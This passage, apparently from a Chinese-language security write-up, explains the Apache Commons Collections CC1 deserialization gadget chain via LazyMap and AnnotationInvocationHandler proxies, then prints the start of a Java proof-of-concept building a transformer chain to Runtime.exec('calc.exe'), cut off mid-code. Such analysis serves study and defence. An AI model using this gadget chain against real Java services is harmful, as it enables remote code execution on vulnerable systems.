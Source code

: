 ![image-20211214182838450](C:\Users\ga't'c\AppData\Roaming\Typora\typora-user-images\image-20211214182838450.png)

`this.memberValues`可控,这里就可以去触发invoke

具体怎么做呢

在TransformedMap链也说了,`AnnotationInvocationHandler`是一个内部类,需要用反射的方法去获取

```
Class DawnT0wn = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor construct = DawnT0wn.getDeclaredConstructor(Class.class,Map.class);
        construct.setAccessible(true);//暴露反射获取AnnotationInvocationHandler的构造器
        InvocationHandler handler = (InvocationHandler) construct.newInstance(Retention.class,outmap);
        //handler是代理的请求处理器,里面是具体的处理逻辑
        Map Mapproxy = (Map) Proxy.newProxyInstance(Map.class.getClassLoader(),new Class[]{Map.class},handler);
//        Map Mapproxy = (Map) Proxy.newProxyInstance(LazyMap.class.getClassLoader(),LazyMap.class.getInterfaces(),handler);
        //创建Map接口的代理实例,因为LazyMap实现了Map的接口,所以被代理类相当于LazyMap
        handler = (InvocationHandler) construct.newInstance(Retention.class,Mapproxy);
        /*
         *创建的代理实例对象叫Mapproxy,但是这里并不能直接序列化,他没有readObject操作，不能对他直接操作
         *因为入口点是sun.reflect.annotation.AnnotationInvocationHandler的readObject
         *所以用AnnotationInvocationHandler对Mapproxy进行包装,这样反序列化时调用AnnotationInvocationHandler触发readObject里面的
         *this.memberValues.entrySet().iterator()触发invoke
         */
```

## 漏洞复现

最终的POC

```
package cn.DawnT0wn;

import org.apache.commons.collections.*;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.map.LazyMap;

import java.io.*;
import java.lang.*;
import java.lang.reflect.Constructor;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.util.Map;
import java.util.HashMap;
import java.lang.annotation.Retention;
public class CC1LazyMap {
    public static void main(String[] args) throws Exception{
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[]{
                        String.class, Class[].class}, new Object[]{
                        "getRuntime", null
                }),
                new InvokerTransformer("invoke", new Class[]{
                        Object.class, Object[].class}, new Object[]{
                        null, null
                }),
                new InvokerTransformer("exec", new Class[]{
                        String.class}, new Object[]{
                        "calc.exe"
```